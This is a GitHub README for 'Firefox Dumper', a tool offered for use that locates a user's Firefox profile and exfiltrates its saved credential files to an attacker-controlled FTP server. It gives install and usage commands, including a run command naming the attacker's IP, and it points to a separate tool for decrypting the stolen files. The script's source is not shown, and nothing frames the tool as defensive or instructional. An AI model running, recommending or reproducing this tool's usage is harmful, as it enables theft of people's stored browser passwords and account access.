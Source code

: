 # Firefox-Dumper

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/Firefox-Dumper/blob/main/images/firefox_dumper.png" />
</p>

Firefox Dumper identifies the current user's Firefox profile directory and exfiltrates the credential files to the attacker's FTP server.  

## Usage
Installing Firefox Dumper

```git clone https://github.com/dievus/Firefox-Dumper.git```

Change directories to Firefox-Dumper and that's it.

```python3 firefoxdumper.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-i, --ip - Mandatory - declares the attacker's FTP server IP. Firefox Dumper uses port 21 by default and is hardcoded.```

Examples of full commands include:

```python3 firefoxdumper.py -i 192.168.1.1```

### Executable Version

Check releases for the executable version. Note that it has to be ran from a command line with the -i flag.  

### Notes
A tool called "Firefox Decrypt" can be found here - https://github.com/unode/firefox_decrypt.  This tool is required in order to decrypt the files.  



